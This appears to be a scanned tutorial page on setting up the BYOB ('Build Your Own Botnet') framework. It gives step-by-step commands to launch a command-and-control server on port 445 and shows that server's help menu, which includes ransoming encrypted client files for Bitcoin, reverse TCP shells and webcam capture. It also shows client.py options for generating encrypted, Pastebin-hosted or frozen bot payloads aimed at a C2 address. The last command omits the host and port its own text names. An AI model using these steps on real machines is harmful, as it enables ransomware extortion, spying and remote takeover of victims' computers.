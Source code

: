  Installing colorama==0.3.9…
 Installing requests==2.20.0…
 Installing PyInstaller==3.3.1…
 Installing opencv-python==3.4.3.18…
 Installing pyHook==1.5.1;sys.platform=='win32'…
 Installing pypiwin32==223;sys.platform=='win32'…
Here two terminals will be used, first terminal will be Bot Server where sessions will be handled and second terminal the Bot Client where bots will be created.
After Installing above all dependencies, type python server.py –port 445
port 445 is used to start server on this particular port. You can assign any of the port.
root@kali:/home/iicybersecurity/Downloads/byob/byob# python server.py --port 445
After starting server type help to view some important commands of the bot server.
[root @ /home/iicybersecurity/Downloads/byob/byob]>help
[?]  Hint: show usage information with the 'help' command

bg [id]                         background a session (default: the current session)
  broadcast              broadcast a task to all active sessions
  clients                         show all clients that have joined the server
  debug                     run python code directly on server (debugging MUST be enabled)
  exit                            quit the server
  help                            show usage help for server commands
  kill                        end a session
  options                         show currently configured settings
  query                query the SQLite database
  ransom [id]                     encrypt client files & ransom encryption key for a Bitcoin payment
  results [id]                    display all completed task results for a client (default: all clients)
  sessions                        show active client sessions
  set  [option=value]    change the value of a setting
  shell                       interact with a client with a reverse TCP shell through an active session
  tasks [id]                      display all incomplete tasks for a client (default: all clients)
  webcam                    capture image/video from the webcam of a client device 
Then open another linux terminal.
Type cd /home/iicybersecurity/Downloads/byob/byob
Then type python client.py –help
 
root@kali:/home/iicybersecurity/Downloads/byob/byob# python client.py --help 
usage: client.py [-h] [--name NAME] [--icon ICON] [--pastebin API] [--encrypt]
                  [--compress] [--freeze] [-v]
                  host port [module [module …]]

 
Generator (Build Your Own Botnet) 

 
positional arguments:
host server IP address
port server port number
module module(s) to remotely import at run-time 

 
optional arguments:
-h, --help show this help message and exit
--name NAME output file name
--icon ICON icon image file name
--pastebin API upload the payload to Pastebin (instead of the C2 server
hosting it)
--encrypt encrypt the payload with a random 128-bit key embedded in
the payload's stager
--compress zip-compress into a self-extracting python script
--freeze compile client into a standalone executable for the current
host platform
-v, --version show program's version number and exit  
Type python client.py –name testbot.py 192.168.1.7 445
root@kali:/home/iicybersecurity/Downloads/byob/byob# python client.py --name testbot.py
–name is used to enter botnet name. Here name of the bot is testbot.py